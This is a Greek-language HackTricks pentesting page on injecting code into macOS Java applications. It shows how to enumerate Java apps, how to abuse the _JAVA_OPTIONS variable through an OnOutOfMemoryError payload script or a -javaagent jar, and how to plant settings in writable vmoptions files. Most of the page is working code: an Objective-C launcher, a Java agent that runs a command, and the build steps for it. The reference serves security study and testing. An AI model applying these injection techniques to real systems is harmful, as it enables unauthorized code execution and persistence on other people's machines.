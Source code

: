 # macOS Java Applications Injection

{{#include ../../../banners/hacktricks-training.md}}

## Enumeration

Βρείτε τις εφαρμογές Java που είναι εγκατεστημένες στο σύστημά σας. Παρατηρήθηκε ότι οι εφαρμογές Java στο **Info.plist** θα περιέχουν κάποιες παραμέτρους java που περιέχουν τη συμβολοσειρά **`java.`**, οπότε μπορείτε να αναζητήσετε αυτό:
```bash
# Search only in /Applications folder
sudo find /Applications -name 'Info.plist' -exec grep -l "java\." {} \; 2>/dev/null

# Full search
sudo find / -name 'Info.plist' -exec grep -l "java\." {} \; 2>/dev/null
```
## \_JAVA_OPTIONS

Η μεταβλητή περιβάλλοντος **`_JAVA_OPTIONS`** μπορεί να χρησιμοποιηθεί για να εισάγει αυθαίρετες παραμέτρους java στην εκτέλεση μιας εφαρμογής που έχει μεταγλωττιστεί σε java:
```bash
# Write your payload in a script called /tmp/payload.sh
export _JAVA_OPTIONS='-Xms2m -Xmx5m -XX:OnOutOfMemoryError="/tmp/payload.sh"'
"/Applications/Burp Suite Professional.app/Contents/MacOS/JavaApplicationStub"
```
Για να το εκτελέσετε ως νέα διαδικασία και όχι ως παιδί του τρέχοντος τερματικού, μπορείτε να χρησιμοποιήσετε:
```objectivec
#import <Foundation/Foundation.h>
// clang -fobjc-arc -framework Foundation invoker.m -o invoker

int main(int argc, const char * argv[]) {
@autoreleasepool {
// Specify the file path and content
NSString *filePath = @"/tmp/payload.sh";
NSString *content = @"#!/bin/bash\n/Applications/iTerm.app/Contents/MacOS/iTerm2";

NSError *error = nil;

// Write content to the file
BOOL success = [content writeToFile:filePath
atomically:YES
encoding:NSUTF8StringEncoding
error:&error];

if (!success) {
NSLog(@"Error writing file at %@\n%@", filePath, [error localizedDescription]);
return 1;
}

NSLog(@"File written successfully to %@", filePath);

// Create a new task
NSTask *task = [[NSTask alloc] init];

/// Set the task's launch path to use the 'open' command
[task setLaunchPath:@"/usr/bin/open"];

// Arguments for the 'open' command, specifying the path to Android Studio
[task setArguments:@[@"/Applications/Android Studio.app"]];

// Define custom environment variables
NSDictionary *customEnvironment = @{
@"_JAVA_OPTIONS": @"-Xms2m -Xmx5m -XX:OnOutOfMemoryError=/tmp/payload.sh"
};

// Get the current environment and merge it with custom variables
NSMutableDictionary *environment = [NSMutableDictionary dictionaryWithDictionary:[[NSProcessInfo processInfo] environment]];
[environment addEntriesFromDictionary:customEnvironment];

// Set the task's environment
[task setEnvironment:environment];

// Launch the task
[task launch];
}
return 0;
}
```
Ωστόσο, αυτό θα προκαλέσει ένα σφάλμα στην εκτελούμενη εφαρμογή, ένας άλλος πιο διακριτικός τρόπος είναι να δημιουργήσετε έναν java agent και να χρησιμοποιήσετε:
```bash
export _JAVA_OPTIONS='-javaagent:/tmp/Agent.jar'
"/Applications/Burp Suite Professional.app/Contents/MacOS/JavaApplicationStub"

# Or

open --env "_JAVA_OPTIONS='-javaagent:/tmp/Agent.jar'" -a "Burp Suite Professional"
```
> [!CAUTION]
> Η δημιουργία του πράκτορα με **διαφορετική έκδοση Java** από την εφαρμογή μπορεί να προκαλέσει κατάρρευση της εκτέλεσης τόσο του πράκτορα όσο και της εφαρμογής

Όπου ο πράκτορας μπορεί να είναι:
```java:Agent.java
import java.io.*;
import java.lang.instrument.*;

public class Agent {
public static void premain(String args, Instrumentation inst) {
try {
String[] commands = new String[] { "/usr/bin/open", "-a", "Calculator" };
Runtime.getRuntime().exec(commands);
}
catch (Exception err) {
err.printStackTrace();
}
}
}
```
Για να μεταγλωττίσετε τον πράκτορα, εκτελέστε:
```bash
javac Agent.java # Create Agent.class
jar cvfm Agent.jar manifest.txt Agent.class # Create Agent.jar
```
Με το `manifest.txt`:
```
Premain-Class: Agent
Agent-Class: Agent
Can-Redefine-Classes: true
Can-Retransform-Classes: true
```
Και στη συνέχεια εξάγετε τη μεταβλητή env και εκτελέστε την εφαρμογή java όπως:
```bash
export _JAVA_OPTIONS='-javaagent:/tmp/j/Agent.jar'
"/Applications/Burp Suite Professional.app/Contents/MacOS/JavaApplicationStub"

# Or

open --env "_JAVA_OPTIONS='-javaagent:/tmp/Agent.jar'" -a "Burp Suite Professional"
```
## vmoptions αρχείο

Αυτό το αρχείο υποστηρίζει την καθορισμένη **Java params** όταν εκτελείται η Java. Μπορείτε να χρησιμοποιήσετε μερικά από τα προηγούμενα κόλπα για να αλλάξετε τις java params και **να κάνετε τη διαδικασία να εκτελεί αυθαίρετες εντολές**.\
Επιπλέον, αυτό το αρχείο μπορεί επίσης να **περιλαμβάνει άλλα** με τον κατάλογο `include`, οπότε μπορείτε επίσης να αλλάξετε ένα περιλαμβανόμενο αρχείο.

Ακόμα περισσότερο, ορισμένες εφαρμογές Java θα **φορτώσουν περισσότερα από ένα `vmoptions`** αρχείο.

Ορισμένες εφαρμογές όπως το Android Studio υποδεικνύουν στην **έξοδό τους πού ψάχνουν** για αυτά τα αρχεία, όπως:
```bash
/Applications/Android\ Studio.app/Contents/MacOS/studio 2>&1 | grep vmoptions

2023-12-13 19:53:23.920 studio[74913:581359] fullFileName is: /Applications/Android Studio.app/Contents/bin/studio.vmoptions
2023-12-13 19:53:23.920 studio[74913:581359] fullFileName exists: /Applications/Android Studio.app/Contents/bin/studio.vmoptions
2023-12-13 19:53:23.920 studio[74913:581359] parseVMOptions: /Applications/Android Studio.app/Contents/bin/studio.vmoptions
2023-12-13 19:53:23.921 studio[74913:581359] parseVMOptions: /Applications/Android Studio.app.vmoptions
2023-12-13 19:53:23.922 studio[74913:581359] parseVMOptions: /Users/carlospolop/Library/Application Support/Google/AndroidStudio2022.3/studio.vmoptions
2023-12-13 19:53:23.923 studio[74913:581359] parseVMOptions: platform=20 user=1 file=/Users/carlospolop/Library/Application Support/Google/AndroidStudio2022.3/studio.vmoptions
```
Αν δεν το κάνουν, μπορείτε εύκολα να το ελέγξετε με:
```bash
# Monitor
sudo eslogger lookup | grep vmoption # Give FDA to the Terminal

# Launch the Java app
/Applications/Android\ Studio.app/Contents/MacOS/studio
```
Σημειώστε πόσο ενδιαφέρον είναι ότι το Android Studio σε αυτό το παράδειγμα προσπαθεί να φορτώσει το αρχείο **`/Applications/Android Studio.app.vmoptions`**, ένα μέρος όπου οποιοσδήποτε χρήστης από την **`admin` ομάδα έχει δικαίωμα εγγραφής.** 

{{#include ../../../banners/hacktricks-training.md}}
